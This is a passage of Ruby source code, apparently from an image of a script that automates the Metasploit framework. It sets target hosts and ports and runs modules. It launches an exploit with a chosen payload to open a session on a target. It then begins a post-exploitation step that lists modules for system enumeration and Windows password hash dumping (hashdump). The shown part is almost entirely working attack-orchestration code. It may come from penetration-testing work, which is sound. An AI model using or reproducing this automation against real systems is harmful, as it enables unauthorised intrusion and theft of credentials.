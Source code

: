 ```ruby
        
        mod.datastore['RHOSTS'] = target
        mod.datastore['PORTS'] = ports.join(',')
        
        puts "[+] Running #{mod_name}"
        mod.run_simple(
          'LocalInput' => Rex::Ui::Text::Input::Stdio.new,
          'LocalOutput' => Rex::Ui::Text::Output::Stdio.new
        )
        
      rescue => e
        puts "[-] Error running #{mod_name}: #{e.message}"
      end
    end
  end
  
  def exploit_target(target, exploit_module, payload_module)
    puts "[+] Attempting to exploit #{target} with #{exploit_module}"
    
    begin
      exploit = @framework.modules.create(exploit_module)
      return false unless exploit
      
      payload = @framework.modules.create(payload_module)
      return false unless payload
      
      exploit.datastore['RHOST'] = target
      exploit.datastore['PAYLOAD'] = payload_module
      
      session = exploit.exploit_simple(
        'LocalInput' => Rex::Ui::Text::Input::Stdio.new,
        'LocalOutput' => Rex::Ui::Text::Output::Stdio.new,
        'Payload' => payload_module
      )
      
      if session
        puts "[+] Exploitation successful! Session #{session.sid} opened"
        @results << {
          target: target,
          exploit: exploit_module,
          payload: payload_module,
          session_id: session.sid,
          success: true
        }
        return session
      else
        puts "[-] Exploitation failed"
        return false
      end
      
    rescue => e
      puts "[-] Error during exploitation: #{e.message}"
      return false
    end
  end
  
  def post_exploitation(session)
    puts "[+] Running post-exploitation modules"
    
    post_modules = [
      'post/windows/gather/enum_system',
      'post/windows/gather/hashdump',
      'post/multi/gather/env'
```